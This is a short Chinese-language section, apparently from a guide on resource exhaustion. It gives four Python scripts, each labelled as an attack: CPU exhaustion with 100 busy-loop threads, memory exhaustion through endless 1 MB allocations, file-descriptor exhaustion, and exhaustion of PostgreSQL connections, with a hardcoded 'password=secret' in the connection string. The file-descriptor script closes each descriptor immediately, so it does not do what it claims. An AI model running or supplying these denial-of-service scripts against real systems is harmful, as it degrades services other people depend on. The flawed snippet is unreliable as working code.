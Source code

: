 ### 4.1 Python脚本

**CPU资源耗尽攻击**：
```python
import threading

def consume_cpu():
    while True:
        pass

for i in range(100):
    threading.Thread(target=consume_cpu).start()
```

**内存资源耗尽攻击**：
```python
import time

def consume_memory():
    data = []
    while True:
        data.append(' ' * 1024 * 1024)  # 每次分配1MB内存
        time.sleep(0.1)

consume_memory()
```

**文件描述符耗尽攻击**：
```python
import os

def consume_fd():
    while True:
        try:
            fd = os.open('temp_file', os.O_CREAT)
            os.close(fd)
        except OSError:
            break

consume_fd()
```

**数据库连接耗尽攻击**：
```python
import psycopg2

def consume_db_connections():
    while True:
        try:
            conn = psycopg2.connect("dbname=test user=postgres password=secret")
            cursor = conn.cursor()
            cursor.execute("SELECT 1")
        except psycopg2.OperationalError:
            break

consume_db_connections()
```
